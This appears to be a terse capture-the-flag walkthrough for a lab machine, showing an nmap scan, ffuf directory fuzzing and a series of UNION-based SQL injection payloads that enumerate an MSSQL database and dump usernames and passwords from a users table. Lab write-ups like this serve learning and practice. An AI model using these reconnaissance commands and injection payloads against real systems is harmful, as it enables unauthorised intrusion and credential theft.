 SQL Injection






nmap -sS -sC -sV -T5 -Pn 10.10.11.158
![image](https://user-images.githubusercontent.com/33616880/231678963-7c74a0a4-d0d6-4c7a-9dd6-15fa0a3a0f90.png)



https://watch.streamio.htb/
![image](https://user-images.githubusercontent.com/33616880/231679081-ce827ae4-c21b-4073-b1d1-8d9f7ef87bb8.png)



ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u https://watch.streamio.htb/FUZZ -fc 403 -e .aspx,.php,.txt,.html![image](https://user-images.githubusercontent.com/33616880/231679110-329c5d3d-31d3-47c3-a82c-60f431c2b08a.png)



https://watch.streamio.htb/search.php
![image](https://user-images.githubusercontent.com/33616880/231679168-05ee4b46-32aa-44b9-9dc0-acdac11c53bb.png)


```
10' union select 1,2,3,4,5,6 -- -
10' union select 1,@@version,3,4,5,6 -- -
10' union select 1,(select DB_NAME()),3,4,5,6 -- -
10' union select 1,(SELECT STRING_AGG(name, ',') name FROM STREAMIO..sysobjects WHERE xtype= 'U'),3,4,5,6 -- -
10' UNION SELECT 1,name,3,4,5,6 FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'users')-- -
10' union select 1,CONCAT(username, ' ', password),3,4,5,6 FROM users-- -
```


![image](https://user-images.githubusercontent.com/33616880/231682312-5800f445-3c89-4aa3-8110-5de64c805117.png)
![image](https://user-images.githubusercontent.com/33616880/231682585-e0902d6b-7ac8-41c8-8a42-b7cd78fe1776.png)
![image](https://user-images.githubusercontent.com/33616880/231682816-1f5bd069-b658-41e1-8355-afecd16ba1b8.png)
![image](https://user-images.githubusercontent.com/33616880/231683062-e55c2a7f-0633-4bf9-b7d1-d1d76e48ba57.png)
![image](https://user-images.githubusercontent.com/33616880/231683260-9e522f56-bdb3-407f-86c4-7b7087301533.png)
![image](https://user-images.githubusercontent.com/33616880/231683518-ed431e05-ff5f-4803-811e-690220fd83e0.png)


